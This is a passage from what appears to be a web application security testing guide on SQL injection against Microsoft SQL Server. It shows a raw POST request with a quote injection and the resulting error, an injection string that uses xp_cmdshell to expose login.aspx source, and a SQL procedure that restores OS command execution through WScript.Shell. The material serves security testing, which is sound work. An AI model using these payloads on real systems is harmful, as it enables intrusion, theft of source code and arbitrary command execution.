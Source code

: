 ### Example 3: Testing in a POST Request

SQL Injection, HTTP POST Content: `email=%27&whichSubmit=submit&submit.x=0&submit.y=0`

A complete post example:

```txt
POST https://vulnerable.web.app/forgotpass.asp HTTP/1.1
Host: vulnerable.web.app
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.0.7) Gecko/20060909 Firefox/1.5.0.7 Paros/3.2.13
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: en-us,en;q=0.5
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
Referer: http://vulnerable.web.app/forgotpass.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
email=%27&whichSubmit=submit&submit.x=0&submit.y=0
```

The error message obtained when a `'` (single quote) character is entered at the email field is:

```txt
Microsoft OLE DB Provider for SQL Server error '80040e14'
Unclosed quotation mark before the character string '' '.
/forgotpass.asp, line 15
```

### Example 4: Yet Another (Useful) GET Example

Obtaining the application's source code

`a' ; master.dbo.xp_cmdshell ' copy c:\inetpub\wwwroot\login.aspx c:\inetpub\wwwroot\login.txt';--`

### Example 5: Custom `xp_cmdshell`

All books and papers describing the security best practices for SQL Server recommend disabling `xp_cmdshell` in SQL Server 2000 (in SQL Server 2005 it is disabled by default). However, if we have sysadmin rights (natively or by bruteforcing the sysadmin password, see below), we can often bypass this limitation.

On SQL Server 2000:

- If `xp_cmdshell` has been disabled with `sp_dropextendedproc`, we can simply inject the following code:

`sp_addextendedproc 'xp_cmdshell','xp_log70.dll'`

- If the previous code does not work, it means that the `xp_log70.dll` has been moved or deleted. In this case we need to inject the following code:

```sql
CREATE PROCEDURE xp_cmdshell(@cmd varchar(255), @Wait int = 0) AS
    DECLARE @result int, @OLEResult int, @RunResult int
    DECLARE @ShellID int
    EXECUTE @OLEResult = sp_OACreate 'WScript.Shell', @ShellID OUT
    IF @OLEResult <> 0 SELECT @result = @OLEResult
    IF @OLEResult <> 0 RAISERROR ('CreateObject %0X', 14, 1, @OLEResult)
    EXECUTE @OLEResult = sp_OAMethod @ShellID, 'Run', Null, @cmd, 0, @Wait
    IF @OLEResult <> 0 SELECT @result = @OLEResult
    IF @OLEResult <> 0 RAISERROR ('Run %0X', 14, 1, @OLEResult)
    EXECUTE @OLEResult = sp_OADestroy @ShellID
    return @result
```
